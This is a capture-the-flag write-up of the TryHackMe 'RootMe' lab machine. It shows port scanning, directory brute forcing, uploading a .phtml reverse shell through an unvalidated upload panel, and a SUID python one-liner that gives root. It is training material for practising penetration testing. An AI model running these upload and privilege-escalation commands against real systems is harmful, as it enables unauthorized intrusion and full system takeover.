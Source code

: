 ###Overview

this is a quick writeup, explaining how we got inside rRootMe machine from tryhackme.
Target Informations

###External Enumeration

Port Scaning i’ll be using nmap as regular:
```python
 nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

###Directory Brute Forcing

```python
kyle@local:~/rrootme.htb$ ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```

panel and uploads Directories seems interstings


File Upload Vulnerability (Direct file upload)

visiting uploads folder, we get a Directory listing, that let us see what the folder contain, well its empty for now LOL

<img src="src/assets/img/1.png"> 

also the Panel directory has an Upload function

<img src="src/assets/img/2.png"> 


the server does not validate the type of files being uploaded (phtml at least, maybe other extentions too), therefor we can upload our malicious file to get a code execution on the server.

i’ll be uploading a reverse shell, with a .phtml extention

sounds like the file has been uploaded

<img src="src/assets/img/3.png"> 

and we successfully got a reverse shell

terminal


Internal Enumeration

Getting a Full interactive shell

lets 1st Upgrade to a full interactive shell with python pty module

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

### Binary Files with SUID Permission

while searching for suid files, we got a good list, and python is a one of them,


```python
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

###Privelege Escalation

we can easly escalate our priveleges, GTFOBins got a good set of priv escalation methods we can use.

```python
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
THM{REDACTED}
```

